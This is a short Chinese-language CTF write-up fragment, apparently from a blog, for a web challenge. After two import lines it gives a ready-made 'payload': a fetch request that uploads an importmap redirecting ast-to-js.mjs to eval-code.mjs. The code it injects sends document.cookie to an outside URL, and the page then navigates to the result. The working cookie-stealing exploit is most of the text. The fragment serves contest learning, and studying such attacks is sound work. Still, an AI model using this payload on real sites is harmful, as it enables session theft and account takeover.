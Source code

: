结合我们上面的

```
import astToJs from "/js/ast-to-js.mjs";
import evalCode from "/js/eval-code.mjs";
```

不知道大家是否有什么想法，这里直接给出payload

```js
fetch("/upload", {
  "headers": {
    "content-type": "application/json",
  },
  "body":JSON.stringify({
      "type":"importmap",
      "program": {
          "imports": {"/js/ast-to-js.mjs": "/js/eval-code.mjs"}, 
          "name": "yo", 
          "code": JSON.stringify({
              "code": "fetch(`url?x=${document.cookie}`)", 
              "variables" :[]
          })
      }
  }),
  "method": "POST"
}).then(r => r.text()).then((url) => location.href = url);

```

学爆了，等赛后的完整WP了。
